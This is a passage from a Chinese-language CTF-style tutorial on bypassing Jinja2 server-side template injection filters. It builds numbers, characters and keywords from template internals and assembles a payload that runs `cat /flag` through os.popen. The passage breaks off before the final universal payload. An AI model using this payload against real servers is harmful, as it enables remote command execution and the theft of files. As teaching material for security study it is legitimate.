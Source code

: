 这里，其实有了数字0之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算，如下示例：

```python
{% set zero = (({ }|select|string|list).pop(38)|int) %}    # 0
{% set one = (zero**zero)|int %}{{one}}    # 1
{%set two = (zero-one-one)|abs %}    # 2
{%set three = (zero-one-one-one)|abs %}    # 3
{% set five = (two*two*two)-one-one-one %}    # 5
#  {%set four = (one+three) %}    
......
```

通过上述原理，我们可以依次获得构造payload所需的特殊字符与字符串：

```python
# 首先构造出所需的数字:
{% set zero = (({ }|select|string|list).pop(38)|int) %}    # 0
{% set one = (zero**zero)|int %}    # 1
{% set two = (zero-one-one)|abs %}    # 2
{% set four = (two*two)|int %}    # 4
{% set five = (two*two*two)-one-one-one %}    # 5
{% set seven = (zero-one-one-five)|abs %}    # 7

# 构造出所需的各种字符与字符串:
{% set xhx = (({ }|select|string|list).pop(24)|string) %}    # _
{% set space = (({ }|select|string|list).pop(10)|string) %}    # 空格
{% set point = ((app.__doc__|string|list).pop(26)|string) %}    # .
{% set yin = ((app.__doc__|string|list).pop(195)|string) %}    # 单引号 '
{% set left = ((app.__doc__|string|list).pop(189)|string) %}    # 左括号 (
{% set right = ((app.__doc__|string|list).pop(200)|string) %}    # 右括号 )

{% set c = dict(c=aa)|reverse|first %}    # 字符 c
{% set bfh = self|string|urlencode|first %}    # 百分号 %
{% set bfhc=bfh~c %}    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    # 使用%c构造斜杠 /
{% set but = dict(buil=aa,tins=dd)|join %}    # builtins
{% set imp = dict(imp=aa,ort=dd)|join %}    # import
{% set pon = dict(po=aa,pen=dd)|join %}    # popen
{% set os = dict(o=aa,s=dd)|join %}    # os
{% set ca = dict(ca=aa,t=dd)|join %}    # cat
{% set flg = dict(fl=aa,ag=dd)|join %}    # flag
{% set ev = dict(ev=aa,al=dd)|join %}    # eval
{% set red = dict(re=aa,ad=dd)|join %}    # read
{% set bul = xhx*2~but~xhx*2 %}    # __builtins__
```

将上面构造的字符或字符串拼接起来构造出 `__import__('os').popen('cat /flag').read()`：

```python
{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}
```

然后将上面构造的各种变量添加到SSTI万能payload里面就行了：

